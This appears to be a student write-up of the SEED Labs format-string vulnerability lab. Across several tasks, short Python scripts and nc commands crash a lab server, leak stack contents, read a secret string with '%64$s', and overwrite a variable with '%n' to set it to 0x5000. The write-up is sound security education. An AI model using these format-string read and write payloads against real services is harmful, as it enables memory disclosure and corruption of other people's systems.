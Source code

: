 # Format-String Vulnerability Lab

## Environment Setup

To begin our assignment, we need to turn off the address randomization using the following command

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

Before opening the terminals, it is important that we compile the program using the *"-z execstack"* option, which allows the stack to be executable.

In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrcfile(in our provided SEEDUbuntu 20.04 VM).

```bash
$ dcbuild # Alias for: docket-compose build
$ dcup # Alias for: docket-compose up
$ dcdown # Alias for: docket-compose down
```

All the containers will be running in the background.  To run commands on a container, we often need to get a shell on that container.  We first need to use the"docker ps"command to find out the ID of the container, and then use "docker exec" to start a shell on that container. We have created aliases forthem in the .bashrcfile.

```bash
$ dockps # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
$ docksh <id>  # // Alias for: docker exec -it <id> /bin/bash
```


# Task 1

Then, we open two terminals, one with the servers, using Docker from Seed-Labs, and another one to communicate with the servers. This allows us to see the exchange of messages between both sides. For example, when we send a string to the server using the command:

```bash
 $ echo 'hello' | nc 10.9.0.5 9090
 ```

We can see the following content appear on the other side:

![Message_setup](../docs/week7/task1_3.png)

From this, we can see some important addresses that we will be using in the following tasks, such as:

The Buffer Input Address;
The Secret Message Address;
The Frame Pointer;
The Target Variable's initial and final values.


To crash our program, firstly we created a file called task1.txt with the following content:

![CrashProg_Code](../docs/week7/task1_code.png)

Then, when we execute the code, our program will read values from the stack that are not valid memory addresses. The message *Returned Properly* did not appear, so we know that our program crashed, as expected.

![Crash_1](../docs/week7/task1.png)

![Crash_2](../docs/week7/task1_2.png)

# Task 2.A

To find out how many %x format specifiers we need to get the server program to print out the first four bytes of our input, we first used "AAAA" as input that we know is "414141" in hexadecimal.

The idea behind this is giving "AAAA" as input and then concatenate with many "%08x.

```bash
$ echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

In the server, we get the following output:


![Task2A](../docs/week7/task2_a.png)

The final "41414141" is the string input adress. Between "AAAA" AND "41414141" there are 504 characters, and each adress has 8, so 504/8 = 63 adresses in the stack. We can conclude that to print the first 4 bytes of input is necessary 64 "%x".

# Task 2.B

For this task, we need to print the content of a string that is in the Heap in the adress 0x080b4008.

We created an auxiliar python scrip to insert the 64 "%s".

```
import sys

content = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We know that by sending a "%s", printf function will read a string from an address. In the previous task, we learned that the number of "%x" needed to get to the beginning of the stack is 64.
By using the auxiliar script, we inserted the string adress followed by 64 "%s", so the format string can read from the adress and return the hidden message.

By executing the auxiliar scrip we get the following outputs:

![Task2B](../docs/logbook7/task2b_1.png)

![Task2B](../docs/logbook7/task2b_2.png)

The secret message is "A secret message".

# Task 3: Modifying the Server Program’s Memory

## Task 3.A: Change the value to a different value

In this task, we need to change the value of the target. The initial value is 0x11223344 and the adress is 0x080e5068.

The command "%n" in format strings, writes the number of characters written up to that point into the memory area of the argument passed as a parameter. The approach is very similar to the command in task 2.B, only instead of reading from the selected address, we will write.

To change the value of the target, we created the following python scrip:
```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile1', 'wb') as f:
  f.write(content)
```

![Task3A](../docs/logbook7/task3a_1.png)

![Task3A_1](../docs/logbook7/task3a.png)

After examining the output, we can see that the target variable value changed.

## Task 3.B: Change the value to 0x5000

In order to change the target variable value to 0x5000 we build the following python scrip:
```
import sys

content = (0x080e5068).to_bytes(4,byteorder='little') + ("%20476x%64$n").encode('latin-1')

# Write the content to badfile
with open('badfile3', 'wb') as f:
  f.write(content)
```

We know that 0x5000 is 20480 in decimal. First we write the 4 bytes for the address. Then, the remaining 20476 bytes will be filled using the %x format with a fixed width. Using %[width]x == %20476x, the program will read 20476 bytes and will try to print them. In the end, the %n specifier will stop it from printing those bytes, but still count them, so the value stored in the address will be the value that we want.

![Task3B](../docs/logbook7/task3b_1.png)
![Task3B_1](../docs/logbook7/task3b.png)

After seeing the output, the value of the target variable was changed to 0x00005000 as we wanted.